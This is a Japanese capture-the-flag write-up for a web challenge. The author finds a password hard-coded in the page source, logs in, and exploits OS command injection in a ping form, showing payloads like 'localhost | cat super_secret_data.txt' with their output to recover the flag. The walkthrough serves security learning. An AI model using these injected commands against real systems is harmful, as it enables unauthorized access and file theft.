



# Writeup

http://chal.cybersecurityrumble.de:3812/ にアクセスする。



ページのソースを見るとパスワードが直書きされている。



Passwordに`rootpw1337`と入力しログイン。

ログインに成功した後、左側の[Debugging] メニューからpingを送信できる画面が表示される。試しに`localhost`と入れると結果が返ってくる。



`localhost | echo 'Hello'`と入力すると`Hello`と返ってくるのでどうやらコマンドインジェクションが通用しそうだと推測。

* [タイガーチームサービス/DEF CON CTF Qualsにチャレンジ！](https://www.tiger1997.jp/report/activity/securityreport_20140523.html)

    * pingでのOSコマンドインジェクション(類似問題)


`ls -la` でカレントディレクトリにあるファイルを調べる。

```bash
localhost | ls -la

total 32
drwxr-xr-x 1 root root 4096 Oct 30 18:39 .
drwxr-xr-x 1 root root 4096 Oct 30 18:35 ..
-rw-r--r-- 1 root root   16 Oct 15 12:49 requirements.txt
drwxr-xr-x 3 root root 4096 Oct 15 12:49 static
-rw-r--r-- 1 root root   85 Oct 15 12:49 super_secret_data.txt
drwxr-xr-x 2 root root 4096 Oct 15 12:49 templates
-rw-r--r-- 1 root root 1070 Oct 15 12:49 webapp.py
-rw-r--r-- 1 root root   23 Oct 15 12:49 wsgi.py
```

`super_secret_data.txt`の中身を`cat`で見る。

```bash
localhost | cat super_secret_data.txt
```

<!-- CSR{oh_damnit_should_have_banned_curl_https://news.ycombinator.com/item?id=19507225} -->